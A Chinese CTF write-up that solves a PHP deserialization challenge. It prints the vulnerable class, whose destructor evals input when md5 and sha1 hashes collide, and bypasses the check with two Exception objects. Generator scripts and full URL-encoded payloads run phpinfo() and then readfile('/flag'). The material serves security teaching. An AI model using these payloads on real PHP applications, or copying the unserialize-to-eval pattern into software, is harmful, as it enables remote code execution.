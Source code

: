 # 原创
：  Exception类绕过md5、sha1等

# Exception类绕过md5、sha1等

**源码：**

```
&lt;?php
show_source(__FILE__);
class CDUTSEC
{
    public $var1;
    public $var2;

    function __construct($var1, $var2)
    {
        $var1 = $var1;
        $var2 = $var2;
    }

    function __destruct()
    {
        echo md5($this-&gt;var1);
        echo md5($this-&gt;var2);
        if (($this-&gt;var1 != $this-&gt;var2) &amp;&amp; (md5($this-&gt;var1) === md5($this-&gt;var2)) &amp;&amp; (sha1($this-&gt;var1) === sha1($this-&gt;var2))) {
            eval($this-&gt;var1);
        }
    }
}

unserialize($_GET['payload']);

Notice: Undefined index: payload in /var/www/html/index.php on line 24

```

**代码审计：**<br/> 这里与[前一题](https://blog.csdn.net/LYJ20010728/article/details/114492485?spm=1001.2014.3001.5501)相比，多了一个sha1绕过，但是fastcoll是不能满足sha1绕过的。<br/> 这里我们采用Exception类绕过md5、sha1等系列。<br/> **解题：**

```
&lt;?php
class CDUTSEC
{
    public $var1;
    public $var2;
} 

$cmd="phpinfo();?&gt;";
$a = new Exception($cmd);
$b = new Exception($cmd,1);

$tr = new CDUTSEC();
$tr-&gt;var1=$a;
$tr-&gt;var2=$b;

echo urlencode(serialize($tr));

```

代码运行得到payload：`O%3A7%3A%22CDUTSEC%22%3A2%3A%7Bs%3A4%3A%22var1%22%3BO%3A9%3A%22Exception%22%3A7%3A%7Bs%3A10%3A%22%00%2A%00message%22%3Bs%3A12%3A%22phpinfo%28%29%3B%3F%3E%22%3Bs%3A17%3A%22%00Exception%00string%22%3Bs%3A0%3A%22%22%3Bs%3A7%3A%22%00%2A%00code%22%3Bi%3A0%3Bs%3A7%3A%22%00%2A%00file%22%3Bs%3A41%3A%22D%3A%5Csublime%5CSublime+Text+3%5C%E4%BB%A3%E7%A0%81%5Ctest.php%22%3Bs%3A7%3A%22%00%2A%00line%22%3Bi%3A9%3Bs%3A16%3A%22%00Exception%00trace%22%3Ba%3A0%3A%7B%7Ds%3A19%3A%22%00Exception%00previous%22%3BN%3B%7Ds%3A4%3A%22var2%22%3BO%3A9%3A%22Exception%22%3A7%3A%7Bs%3A10%3A%22%00%2A%00message%22%3Bs%3A12%3A%22phpinfo%28%29%3B%3F%3E%22%3Bs%3A17%3A%22%00Exception%00string%22%3Bs%3A0%3A%22%22%3Bs%3A7%3A%22%00%2A%00code%22%3Bi%3A1%3Bs%3A7%3A%22%00%2A%00file%22%3Bs%3A41%3A%22D%3A%5Csublime%5CSublime+Text+3%5C%E4%BB%A3%E7%A0%81%5Ctest.php%22%3Bs%3A7%3A%22%00%2A%00line%22%3Bi%3A9%3Bs%3A16%3A%22%00Exception%00trace%22%3Ba%3A0%3A%7B%7Ds%3A19%3A%22%00Exception%00previous%22%3BN%3B%7D%7D`<br/> 测试payload：<br/> <img alt="在这里插入图片描述" src="https://img-blog.csdnimg.cn/20210307190253197.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L0xZSjIwMDEwNzI4,size_16,color_FFFFFF,t_70#pic_center"/><br/> 说明思路是正确的，接着我们将`phpinfo();?&gt;`换成`readfile('/flag');?&gt;`：

```
&lt;?php
class CDUTSEC
{
    public $var1;
    public $var2;
} 

$cmd="readfile('/flag');?&gt;";
$a = new Exception($cmd);$b = new Exception($cmd,1);

$tr = new CDUTSEC();
$tr-&gt;var1=$a;
$tr-&gt;var2=$b;
echo urlencode(serialize($tr));

```

运行代码得到payload：`O%3A7%3A%22CDUTSEC%22%3A2%3A%7Bs%3A4%3A%22var1%22%3BO%3A9%3A%22Exception%22%3A7%3A%7Bs%3A10%3A%22%00%2A%00message%22%3Bs%3A20%3A%22readfile%28%27%2Fflag%27%29%3B%3F%3E%22%3Bs%3A17%3A%22%00Exception%00string%22%3Bs%3A0%3A%22%22%3Bs%3A7%3A%22%00%2A%00code%22%3Bi%3A0%3Bs%3A7%3A%22%00%2A%00file%22%3Bs%3A41%3A%22D%3A%5Csublime%5CSublime+Text+3%5C%E4%BB%A3%E7%A0%81%5Ctest.php%22%3Bs%3A7%3A%22%00%2A%00line%22%3Bi%3A9%3Bs%3A16%3A%22%00Exception%00trace%22%3Ba%3A0%3A%7B%7Ds%3A19%3A%22%00Exception%00previous%22%3BN%3B%7Ds%3A4%3A%22var2%22%3BO%3A9%3A%22Exception%22%3A7%3A%7Bs%3A10%3A%22%00%2A%00message%22%3Bs%3A20%3A%22readfile%28%27%2Fflag%27%29%3B%3F%3E%22%3Bs%3A17%3A%22%00Exception%00string%22%3Bs%3A0%3A%22%22%3Bs%3A7%3A%22%00%2A%00code%22%3Bi%3A1%3Bs%3A7%3A%22%00%2A%00file%22%3Bs%3A41%3A%22D%3A%5Csublime%5CSublime+Text+3%5C%E4%BB%A3%E7%A0%81%5Ctest.php%22%3Bs%3A7%3A%22%00%2A%00line%22%3Bi%3A9%3Bs%3A16%3A%22%00Exception%00trace%22%3Ba%3A0%3A%7B%7Ds%3A19%3A%22%00Exception%00previous%22%3BN%3B%7D%7D`<br/> 执行payload：<br/> <img alt="在这里插入图片描述" src="https://img-blog.csdnimg.cn/20210307190559423.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L0xZSjIwMDEwNzI4,size_16,color_FFFFFF,t_70#pic_center"/>
